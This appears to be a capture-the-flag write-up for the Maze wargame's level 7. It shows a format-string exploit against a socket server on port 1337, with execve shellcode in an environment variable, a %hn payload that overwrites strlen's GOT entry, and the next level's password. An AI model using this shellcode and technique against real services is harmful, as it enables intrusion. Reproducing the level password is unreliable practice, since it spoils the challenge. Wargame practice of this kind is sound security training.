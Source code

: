 
---
**Challenge URL:** [Maze Wargame](https://overthewire.org/wargames/)

---

### 🔐 Level Goal:

> This level runs a **socket server on port 1337** that receives input and sends a reply. If the input matches `"god"`, it sends a generic message. If not, it executes `snprintf()` with your input as the format string — making it vulnerable to a **format string exploit**.

---

### 🧠 Concepts Covered:

- 🧵 Socket communication
    
- 🧩 Format string exploitation (`%n`, `%hn`)
    
- 📌 GOT overwrite to redirect execution
    
- 🐚 Shellcode in environment
    

---

### 🔎 Binary Summary

```c
if (strcmp(buf, "god") == 0) {
    strcpy(replybuf, "Yup... go away");
} else {
    snprintf(replybuf, 512, buf);     // ⚠️ Format string vuln!
    strcat(replybuf, " is wrong ^_^");
}
send(client_sock, replybuf, strlen(replybuf), 0);
```

✅ Since the format string is **not sanitized**, and our input becomes its format string, we can use `%n` or `%hn` to write arbitrary values.

---

### 🧪 Exploit Plan

1. Find the GOT address of a function like `strlen@GOT`
    
2. Overwrite it to point to **our shellcode in env**
    
3. Trigger a call to that function (indirectly or by alignment)
    
4. Shell executes
    

---

### ⚙️ Shellcode Setup

#### 📜 1. Export shellcode to env:

```bash
export SC=$(python3 -c 'print("\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68" \
"\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")')
```

🧠 Shellcode location: `0xffffdf0c`

---

### 🧠 Memory Addressing

Assume `strlen@GOT = 0x08049d34`

We'll split `0xffffdf0c` into:

- **Lower bytes (LO):** `0xdf0c`
    
- **Higher bytes (HI):** `0xffff`
    

Then we’ll write it to:

- `0x08049d34` (LO)
    
- `0x08049d36` (HI)
    

---

### 📜 2. Craft Format String Payload

```bash
python3 -c 'print(
  "\x34\x9d\x04\x08" +     # addr of GOT (LO)
  "\x36\x9d\x04\x08" +     # addr of GOT+2 (HI)
  "%57092x%1$hn" +         # write LO (0xdf0c)
  "%8435x%2$hn"            # write HI (0xffff)
)' | nc localhost 1337
```

> Calculations:

- `0xdf0c = 57092`
    
- `0xffff - 0xdf0c = 8435`
    
- `$1`, `$2` are argument positions for addresses on the stack
    

---

### 🧪 Trigger

In one terminal:

```bash
/maze/maze7
```

In another:

```bash
python3 ... | nc localhost 1337
```

🧨 When `snprintf()` is called, our payload overwrites `strlen()` GOT entry → control jumps to shellcode → shell spawns!

---

### 🔑 Password for Maze Level 8:

```
jopieyahng
```

---
